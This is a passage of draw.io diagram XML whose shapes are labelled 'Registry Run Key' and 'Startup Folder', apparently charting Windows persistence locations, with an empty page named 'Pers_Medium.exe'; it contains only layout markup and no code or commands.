        <mxCell id="P6aCfQ930mBBJoiv-hOj-8" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-1" target="P6aCfQ930mBBJoiv-hOj-6">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-26" value="Registry&lt;br&gt;Run Key" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="750" y="125" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-27" value="Startup&lt;br&gt;Folder" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-24">
          <mxGeometry x="750" y="200" width="80" height="40" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
  <diagram id="bf5JVRvlxyUvXe34iGP1" name="Pers_Medium.exe">
    <mxGraphModel dx="1332" dy="491" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
